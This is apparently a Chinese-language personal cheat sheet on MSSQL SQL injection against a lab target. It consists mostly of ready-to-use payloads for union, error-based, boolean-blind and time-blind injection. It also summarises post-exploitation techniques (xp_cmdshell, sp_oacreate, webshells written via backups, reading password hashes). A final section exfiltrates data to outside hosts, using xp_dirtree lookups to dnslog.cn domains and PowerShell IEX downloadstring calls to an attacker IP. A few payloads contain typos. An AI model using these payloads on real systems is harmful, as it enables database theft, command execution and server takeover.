

# 知识点恶补

- `SQL Server` 默认开放的端口是`TCP 1433`
- 利用总结

```cmd
1.SQL注入查询登录用户Hash
//id=0'union select 1,2,(select master.dbo.fn_varbintohexstr(password_hash) from sys.sql_logins where name='sa') --+

2.扩展存储过程 xp_cmdshell 执行命令
3.系统存储过程 sp_oacreate+sp_oamethod 执行命令
4.扩展存储过程 xp_regwrite 写注册表 (映像劫持,远程桌面,开机启动项等)
5.利用 CLR 组件执行系统命令
6.系统存储过程 sp_addextendedproc 恢复组件
7.差异备份写 webshell
8.日志备份写 webshell
```

- 
- 视图和表的关系:`数据表`是真实存在的,有效数据,视图相当于固定的sql语句,当打开视图就执行其sql语句.视图多为几个表的关系联合表达,有助于封装复杂的关系
- MSSql数据库级别设置:`服务器级->数据库级->架构级->数据对象级`

```sql
Server.DataBase1.dbo.Table1;
//这里的意思是Table1这个表属于dbo这个架构,dbo这个架构属于DataBase1这个数据库,DataBase1这个表属于Server这个服务器
```

- MSSql的`默认库`:`master,model,tempdb,msdb`

```cmd
1.master数据库(重要):master数据库控制SQL Server的所有方面,这个数据库包含所有的配置信息,用户登录信息,当前正在服务器运行的过程信息
2.model数据库:model数据库是建立所有用户数据库时的模板,当建立一个新数据库时,SQL Server会把model数据库中的所有对象建立一份拷贝并移到新数据库中.在模板对象被拷贝到新的数据库之后,该数据库的所有多余对象都将被空页填满
3.tempdb数据库:这个库用来存储所有的临时表,存储过程和其它SQL Ssrver建立临时用的东西
4.msdb数据库:由 Enterprise Manager 和 Agent 使用,记录着任务计划信息,事件处理信息,数据备份和恢复信息,警告及异常信息
```

- 基本语句

```cmd
MSSql的基本语句：
创建数据库：CREATEDATABASE[dbname]
删除数据库：dropdatabase[dbname]
创建新表：createtable[tablename](namechar(10),agetinyint,sexint)
删除新表：droptable[tablename]
向表中插入内容：insertinto[tablename](field1,field2）values(value1,value2）
删除内容：deletefrom[tablename]where范围
更新内容：update[tablename]setfield1=value1where范围
查找：select*from[tablename]wherefield1=”ichunqiu”
```

- 权限控制




- 视图表

|           视图表           |                       说明                        |
| :------------------------: | :-----------------------------------------------: |
|       sys.databases        |             SQL Server中的所有数据库              |
|       sys.sql_logins       |             SQL Server中所有的登录名              |
| information_schema.tables  |                 当前数据库中的表                  |
| information_schema.columns |               当前用户数据库中的列                |
|      sys.all_columns       |       用户定义对象和系统对象的所有列的联合        |
|  sys.database_principals   |           数据库中每个权限或列异常权限            |
|     sys.database_files     |            存储在数据库中的数据库文件             |
|         sysobjects         | 数据库中创建的每个对象(例如约束,日志以及存储过程) |

- `数据外带`

------


------


------


------


------


------


------


------


------


------


------


------


# 联合查询注入

#### 查询回显点

```sql
id=-1'union select top 1 1,2,3 --+
```


#### 获取当前数据库名

```sql
id=-1'union select top 1 1,2,db_name() --+
```


#### 获取`所有`数据库名

```sql
//修改第二个`top`可以查看其它的数据库名
id=-1'union select top 1 1,2,name from master.sys.databases where name not in(select top 1 name from master.sys.databases) --+
```


#### 获取表名

```sql
id=-1'union select top 1 1,2,table_name from information_schema.tables where table_name not in(select top 1 table_name from information_schema.tables) --+
```


#### 获取字段名

```sql
id=-1'union select top 1 1,2,column_name from information_schema.columns where table_name='users' and column_name not in(select top 1 column_name from information_schema.columns where table_name='users') --+
```


#### 获取数据

```sql
id=-1'union select top 1 1,username,password from users where username not in(select top 1 username from users) and password not in(select top 1 password from users) --+
```


------

# 报错注入

#### 获取数据库名

```sql
id=-1'and 1=db_name() --+
```


#### 获取`所有`数据库名

```sql
id=1'and 1=(select quotename(name) from master.sys.databases FOR XML PATH('')) --+
```


#### 获取表名

```sql
id=-1'and 1=(select top 1 table_name from information_schema.tables where table_name not in(select top 4 table_name from information_schema.tables)) --+
```


#### 获取`所有`表名

```sql
id=1'and 1=(select quotename(table_name) from information_schema.tables FOR XML PATH('')) --+
```


#### 获取字段名

```sql
id=1'and 1=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in(select top 2 column_name from information_schema.columns where table_name='users')) --+
```


#### 获取`所有`字段名

```SQL
id=1'and 1=(select quotename(column_name) from information_schema.columns where table_name='users' FOR XML PATH('')) --+		
```


#### 获取`所有`数据

```sql
id=1'and 1=(select quotename(username),quotename(password) from users for xml path('')) --+
```


------


# 布尔盲注

#### 判断数据库个数

```sql
id=1'and (select count(*) from sys.databases)=8 --
```

#### 获取数据库名长度

```sql
id=1'and len(select db_name())=4 --+
```


#### 获取数据库名-->`test`

```sql
//先写好包含26字母大小写的payload字典,放入爆破-->数据库名test
id=1'and substring((select db_name()),2,1)='e' --+
```


#### 获取表的个数-->`5`

```sql
//使用 table_catalog 指定当前数据库
id=1'and (select count(*) from information_schema.tables where table_catalog='test')=5 --+
```


#### 获取最后一个表名的长度-->`5`

这条查询语句的目的是检查第五张表的名称长度

- `row_number() over (order by table_name) as row_num`：`ROW_NUMBER()` 函数为查询结果中的每一行生成一个唯一的递增编号。`OVER` 子句指定了排序方式，这里是按 `table_name` 排序。`row_num` 是这个编号的别名。
- `select table_name, row_number() over (order by table_name) as row_num from test.information_schema.tables`：从 `test.information_schema.tables` 表中选择 `table_name` 和计算出的行号 `row_num`。
- `where row_num = 5`：从计算出的结果中选择第 5 行。

```sql
id=1'and len((select table_name from (select table_name, row_number() over (order by table_name) as row_num from test.information_schema.tables) as tables_with_row where row_num=5))=5 --+			
```

#### 获取最后一个表的表名-->`users`

```sql
http://192.168.100.226/less-1.asp?id=1'and substring((select table_name from (select table_name, row_number() over (order by table_name) as row_num from test.information_schema.tables) as tables_with_row where row_num=5),1,1)='w' --+
```


#### 获取字段

- 字段长度不测了,直接测字段名

```sql
//第一个字段名-->id
http://192.168.100.226/less-1.asp?id=1' and substring((select column_name from (select column_name, row_number() over (order by column_name) as row_num from test.information_schema.columns where table_name = 'users') as columns_row where row_num = 1),1,1)='d' --+
```


```sql
//第二个字段名-->password
http://192.168.100.226/less-1.asp?id=1' and substring((select column_name from (select column_name, row_number() over (order by column_name) as row_num from test.information_schema.columns where table_name = 'users') as columns_row where row_num = 2),1,1)='d' --+
```


```sql
//第二个字段名-->username
http://192.168.100.226/less-1.asp?id=1' and substring((select column_name from (select column_name, row_number() over (order by column_name) as row_num from test.information_schema.columns where table_name = 'users') as columns_row where row_num = 3),1,1)='d' --+
```


------

# 时间盲注

#### 判断数据库名长度-->`5`

```sql
id=1'if(len(db_name())=5) waitfor delay '0:0:5' --+
```

#### 获取数据库名

```sql
id=1'if(substring((select db_name),n,1))=m) waitfor delay '0:0::5' --+
```

#### 获取表名长度

```sql
id=1'if(len((select top 1 table_name from information_schema.tables))>10) waitfor delay '0:0:5' --+
```

#### 获取表名

```sql
id=1'if(substring((select top 1 table_name from information_schema.tables),n,1))=m waitfor delay '0:0:5' --+
```

#### 判断字段长度

```sql
id=1' if(len((select top 1 column_name from information_schema.columns))>10) waitfor delay '0:0:5' --+
```

#### 获取字段名

```sql
id=1' if(substring((select top 1 column_name from information_schema.columns),n,1))=m waitfor delay '0:0:5' --+
```


------

# 数据外带

### DNS数据外带

#### 获取数据库名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_dirtree "//'%2B@a%2B'.qu4mx7.dnslog.cn//a"') --+
```


#### 获取表名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 table_name from information_schema.tables where table_name not in(select top 4 table_name from information_schema.tables));exec('master..xp_dirtree "//'%2B@a%2B'.06z43e.dnslog.cn//a"') --+
```


#### 获取字段名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in(select top 1 column_name from information_schema.columns where table_name='users'));exec('master..xp_dirtree "//'%2B@a%2B'.fi2j4m.dnslog.cn//a"') --+
```


```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in(select top 2 column_name from information_schema.columns where table_name='users'));exec('master..xp_dirtree "//'%2B@a%2B'.fi2j4m.dnslog.cn//a"') --+
```


#### 获取数据

```sql
id=1';declare @a varchar(8000);set @a=(select top uagent from emails) ;exec('master..xp_cmdshell "ping.exe '%2b%@a%2b'.Laffrex.eyes.sh -n 1"') --+
```

------

# http数据外带

#### 获取数据库名

```sql
id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```


#### 获取表名

```sql
id=1';declare @a varchar(8000);set @a=(select top 1 table_name from information_schema.tables);exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```


#### 获取字段名

```sql
id=1';declare @a varchar(8000);set @a=(select top 1 column_name from information_schema.columns);exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```


------


# smb数据外带
